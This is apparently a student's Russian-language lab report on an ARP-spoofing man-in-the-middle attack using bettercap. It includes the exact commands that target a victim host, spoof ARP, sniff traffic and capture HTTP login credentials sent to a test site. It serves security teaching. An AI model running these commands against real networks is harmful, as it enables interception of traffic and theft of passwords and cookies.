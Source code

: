 
# Лабораторный отчёт – День 10


**ФИО:** Гул Керим Аллалович
 
**Дата выполнения:** 13.06.2025

**Преподаватель:** Виталий Новиков 


---

## 1. Тема и цель работы

**Тема:** Проведение MITM-атаки в локальной сети.

**Цели работы:**

- Изучить теоретические основы MITM и механизм ARP-спуфинга.
- Получить практические навыки использования утилиты bettercap для проведения ARP-спуфинга и перенаправления трафика.
- Научиться перехватывать и анализировать незашифрованный HTTP-трафик для извлечения аутентификационных данных (cookie, логин/пароль).
- Зафиксировать результаты атаки путем сохранения перехваченного трафика (pcap) и скриншотов.

---

## 2. Теоретическая часть


*   **MITM (Man-in-the-Middle) Attack:** Атака, при которой злоумышленник тайно ретранслирует и, возможно, изменяет коммуникацию между двумя сторонами, которые считают, что они напрямую общаются друг с другом.
*   **ARP (Address Resolution Protocol):** Протокол для сопоставления IP-адреса (логического адреса 3-го уровня) с MAC-адресом (физическим адресом 2-го уровня) в локальной сети.
*   **ARP Spoofing / ARP Poisoning:** Техника атаки, при которой злоумышленник отправляет поддельные ARP-сообщения в локальную сеть. Это позволяет связать MAC-адрес атакующего с IP-адресом другого узла (например, шлюза), заставляя трафик идти через машину атакующего.
*   **Bettercap:** Мощный, модульный и портативный фреймворк для проведения различных видов MITM-атак, сканирования сетей и мониторинга трафика.
*   **HTTP (HyperText Transfer Protocol):** Протокол прикладного уровня, используемый для передачи веб-страниц. Данные, включая пароли и cookie, передаются в незашифрованном, открытом виде.
*   **Cookie:** Небольшой фрагмент данных, отправленный веб-сервером и хранимый на компьютере пользователя. Часто используется для аутентификации и отслеживания состояния сессии.

---

### 3. Ход работы

Для выполнения задачи была проведена MITM-атака типа ARP-спуфинг с целью перехвата HTTP-трафика между хостом-жертвой (`192.168.1.59`) и шлюзом (`192.168.1.1`). В качестве основного инструмента использовался фреймворк `bettercap`, который был сразу запущен в режиме записи всего перехваченного трафика в pcap-файл.

#### 3.1. Используемые команды

**1. Запуск Bettercap с записью в файл:**

`Bettercap` был запущен с опцией `-pcap` для автоматического сохранения всей сетевой сессии в файл `day10_cookie.pcap`.

```bash
sudo bettercap -iface eth0 -pcap day10_cookie.pcap
```

**2. Настройка атаки в интерактивной консоли:**

После запуска, в интерактивном режиме `bettercap`, были заданы цель для ARP-спуфинга и включены модули перехвата трафика.

```bash
set arp.spoof.targets 192.168.1.59
arp.spoof on
net.sniff on
```

#### 3.2. Скриншоты и захват трафика

После запуска атаки на машине-жертве был выполнен вход на тестовый веб-сайт `http://testphp.vulnweb.com`. В результате `bettercap` успешно перехватил HTTP POST-запрос, содержащий аутентификационные данные в открытом виде.

На скриншоте ниже виден перехваченный логин (`uname=login`) и пароль (`pass=parol2222888`).

![Перехват логина и пароля](https://raw.githubusercontent.com/Nelass1c/practica-konvey/main/day10/bettercap/steal_parol.jpg)


Весь трафик, включая перехваченные HTTP-запросы, был автоматически сохранен в pcap-файл в ходе выполнения атаки.

*   **Файл захвата трафика:** [`day10_cookie.pcap`](https://raw.githubusercontent.com/Nelass1c/practica-konvey/main/day10/bettercap/day10_cookie.pcap)

---

### 4. Результаты

*   Успешно проведена MITM-атака на хост `192.168.1.59` в локальной сети с использованием утилиты `bettercap` и техники ARP-спуфинга.
*   Был перехвачен незашифрованный HTTP POST-запрос, отправленный жертвой на сайт `http://testphp.vulnweb.com`.
*   Из тела перехваченного запроса были извлечены аутентификационные данные в открытом виде: логин (`uname`) и пароль (`pass`).
*   В качестве доказательства успешной атаки были сохранены скриншот с выводом `bettercap` и pcap-файл с полным дампом перехваченного трафика.

---

### 5. Выводы

*   **Закреплены навыки:** Получен практический опыт проведения MITM-атаки с помощью `bettercap`. Наглядно продемонстрирована опасность ARP-спуфинга и уязвимость передачи данных по незашифрованному протоколу HTTP. Закреплено понимание важности использования HTTPS для защиты данных.

*   **Что показалось сложным:** Подбор правильного синтаксиса команд `bettercap` для одновременного запуска атаки и записи трафика в файл потребовал нескольких попыток.

*   **Какой инструмент был наиболее полезен:** Ключевым инструментом выступил `bettercap`, который позволил автоматизировать и значительно упростить сложный процесс ARP-спуфинга и перехвата трафика с помощью модулей `arp.spoof` и `net.sniff`.

---